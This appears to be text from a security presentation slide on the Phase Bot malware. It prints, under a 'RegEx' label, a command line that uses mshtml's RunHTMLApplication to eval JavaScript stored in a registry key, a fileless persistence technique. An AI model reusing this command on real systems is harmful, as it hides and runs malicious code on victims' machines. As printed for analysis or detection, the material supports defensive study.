

RegEx :
javascript:”..mshtml,RunHTMLApplication “;eval((new%20ActiveXObject
(“WScript.Shell”)).RegRead(“HKCUSoftwareMicrosoftActive%20SetupInstalled
%20Components{72507C54-3577-4830-815B-310007F6135A}JavaScript”));close();
# PHASE BOT